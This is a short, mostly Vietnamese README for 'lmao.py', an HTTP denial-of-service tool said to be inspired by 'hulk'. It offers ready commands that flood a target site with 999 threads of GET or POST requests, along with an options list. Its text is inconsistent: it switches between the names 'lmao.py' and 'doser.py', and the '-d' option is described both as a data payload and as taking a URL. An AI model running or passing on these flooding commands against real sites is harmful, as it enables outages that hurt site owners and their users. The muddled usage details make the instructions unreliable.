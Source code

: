 # lmao.py
Công cụ DoS cho các yêu cầu HTTP (lấy cảm hứng từ hulk nhưng có nhiều chức năng hơn) được viết bằng Python:
![](https://raw.githubusercontent.com/Quitten/doser.py/master/doser.jpg)

# Ví Dụ
999 threads sends GET requests:

```bash
python doser.py -t 999 -g 'https://targeted.site.com'
```

999 threads sends POST requests with json data:

```bash
python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'
```

# Cách sử dụng
``` Nếu bạn chọn <g> thì sẽ là : python lmao.py -t 999 -g 'URL'```

```Nếu bạn chọn <p> thì sẽ là : python lmao.py -t 999 -p 'URL'```

```Nếu bạn chọn <d> thì sẽ là : python lmao.py -t 999 -d 'URL' ```


Các tùy chọn :

  -h, --help  show this help message and exit
  
  -g       -- Specify GET request. Usage: -g '< url >'
  
  -p      --  Specify POST request. Usage: -p '< url >'
  
  -d      --  Specify data payload for POST request
  
  -ah     -- Specify addtional header
  
  -t      --  Specify number of threads to be used

# BY:
Duong Quang Truong :)
